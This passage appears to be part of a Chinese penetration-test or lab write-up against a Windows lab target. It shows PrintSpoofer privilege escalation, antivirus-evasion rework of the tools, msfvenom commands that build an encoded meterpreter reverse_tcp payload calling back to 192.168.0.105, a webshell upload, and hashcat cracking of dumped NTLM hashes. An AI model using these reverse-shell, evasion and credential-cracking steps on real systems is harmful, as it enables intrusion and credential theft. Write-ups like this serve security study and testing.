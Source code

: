 看到一些安全狗得进程 

Systeminfo看到只打了2个补丁 

4.1.7 使用“ PrintSpoofer ”提权 

直接上传提权工具，路径为“ C:\Windows\Temp\ ”别的地方可能没有权限

但是一运行，发现就有问题，猜测是被杀软干掉了 

去靶机看看，果然被干掉了

免杀处理之后，再次上传搞定 

`执行命令： PrintSpoofer1.exe -i -c "whoami"`

 **这里已经是system为什么不创建用户加入管理员组的原因是：**

狗不会拦截创建用户，但是加入管理员组会被拦截，所以我们直接上传msf

4.1.8 MSF免杀上线 

`生成msf的payload，命令：`

> 
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.105 LPORT=2333 -e x86/shikata_ga_nai -i 15 -f csharp -o payload.txt`


 

将全部的shellcode复制出来 

将生成的免杀文件上传到目标服务器 

Msf去开启监听 

菜刀直接木马

4.1.9 破解hash获得明文 

`这里老套路先迁移进程在获取hash与明文。但是迁移进程的时候，会话掉了`

看来不是太稳定，在获取一次 

一会又掉了，刷新文件发现木马文件直接被干掉了

`修改编译次数，重新生成免杀。终于获得到hash。`

> 
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.105 LPORT=2333 -e x86/shikata_ga_nai -i 14 -f csharp -o payload.txt`


我们可以将获取到的hash到在线网站去破解一下

**`为什么是破解而不是直接导出明文账户密码呢？`**

`因为在win ser2012之后都默认不能导出。`

`一般是通过修改注册列表，重启之后等管理员登录才可以抓到。`

`这里我们出了用在线网站破解。也可以使用hashcat来破解`

**hashcat -a 0 -m 1000 hash.txt rockyou.txt —force**
